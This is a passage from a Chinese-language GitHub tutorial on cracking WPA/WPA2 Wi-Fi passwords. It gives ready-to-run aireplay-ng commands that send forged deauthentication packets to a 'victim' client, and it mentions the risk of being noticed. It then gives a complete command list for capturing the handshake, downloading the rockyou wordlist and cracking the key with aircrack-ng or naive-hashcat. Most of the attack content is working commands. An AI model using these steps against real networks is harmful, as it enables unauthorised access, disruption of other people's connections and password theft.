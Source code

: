 现在，先不管这个正在运行的 `airodump-ng` ，打开一个新的终端。 我们用 `aireplay-ng` 命令向我们的受害者客户端发送伪造的解除认证数据包，强制其重新连接到网络，以便在此过程中抓取 handshake。

```bash
# -0 2 指定了我们将发送 2 个解除认证的数据包。如果需要
# 可以增加这个数字，但随之而来客户端网络可能中断，有被人注意到的风险。
# -a 是接入点的 MAC
# -c 是客户端的 MAC
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
```

你也可以选择得通过广播解除认证数据包到所有连接的客户端：

```bash
# 尽管不是所有的客户端都会响应广播解除认证
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
```

发送了解除认证数据包后，回到你的 `airodump-ng` 进程，运气好的话你现在应该看到右上角：`[WPA握手：9C：5C：8E：C9：AB：C0`。 现在你已经捕获了握手，你应该准备好[破解网络密码](https://github.com/brannondorsey/wifi-cracking/blob/master/README.zh.md#crack-the-network-password)。

# 命令列表

下面列出了破解WPA/WPA2网络所需的所有命令，以最少的解释为依据。

```bash
# 将你的设备设置成监测模式
airmon-ng start wlan0

# 监听附近所有的 beacon 帧来获取目标 BSSID 以及信道
airodump-ng mon0

# 开始监听握手
airodump-ng -c 6 --bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

# 选择性的对于连接的设备进行解除验证从而强制握手
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

########## 利用 aircrack-ng 破解密码... ##########

# 如果需要的话下载 134MB 的 rockyou.txt 字典文件
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# 利用 w/ aircrack-ng 破解
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## 或者利用 naive-hashcat 破解密码 ##########

# 将 cap 转换成 hccapx
cap2hccapx.bin capture/-01.cap capture/-01.hccapx

# 利用 naive-hashcat 破解
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
```
